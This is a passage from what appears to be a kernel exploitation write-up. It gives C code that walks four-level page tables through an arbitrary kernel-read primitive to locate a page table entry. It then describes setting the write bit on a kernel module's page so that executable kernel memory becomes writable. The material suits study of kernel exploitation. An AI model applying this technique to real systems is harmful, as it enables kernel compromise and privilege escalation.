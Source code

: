 So I created some code to walk page tables, and with some trial and error I made it work.
```c
unsigned long pageTableWalk(unsigned long pgdir, unsigned long vaddr) {
	unsigned long index1 = (vaddr >> 39) & 0x1ff;
	unsigned long index2 = (vaddr >> 30) & 0x1ff;
	unsigned long index3 = (vaddr >> 21) & 0x1ff;
	unsigned long index4 = (vaddr >> 12) & 0x1ff;

	printf("index1: %lx, index2: %lx, index3: %lx index4: %lx\n", index1, index2, index3, index4);
	
	unsigned long lv1 = read64(pgdir + index1*8);
	if (!lv1) {
		printf("[!] lv1 is invalid\n");
		exit(-1);
	}
	printf("lv1: %lx\n", lv1);
	unsigned long lv2 = read64(((lv1 >> 12) << 12) + pageOffsetBase + index2*8);
	if (!lv2) {
		printf("[!] lv2 is invalid\n");
		exit(-1);
	}
	printf("lv2: %lx\n", lv2);
	
	unsigned long lv3 = read64(((lv2 >> 12) << 12) + pageOffsetBase + index3*8);
	if (!lv3) {
		printf("[!] lv3 is invalid\n");
		exit(-1);
	}
	printf("lv3: %lx\n", lv3);

	unsigned long lv4 = read64(((lv3 >> 12) << 12) + pageOffsetBase + index4*8);
	if (!lv4) {
		printf("[!] lv3 is invalid\n");
		exit(-1);
	}
	printf("lv4: %lx\n", lv4);
	
	unsigned long vaddr_alias = ((lv4 >> 12) << 12) + pageOffsetBase;
	printf("vaddr alias page: %p\n", (void *)vaddr_alias);
	unsigned long pte_addr = ((lv3 >> 12) << 12) + pageOffsetBase + index4*8;
	printf("pte address: %p\n", (void *)pte_addr);
	
	return pte_addr;
}
```

One thing to notice is that each entry contains the physical address for the lower level page table, so we must add `page_offset_base` to find calculate the virtual address (alias page) for that physical frame. The code above returns the virtual address to the page table entry, so manipulating bits of that entry will change the permissions of that address.

The address I decided to play with is the module base. Originally it only has the EXEC/READ bits, but I give it WRITE as well. This can be done by setting the second least significant bit.
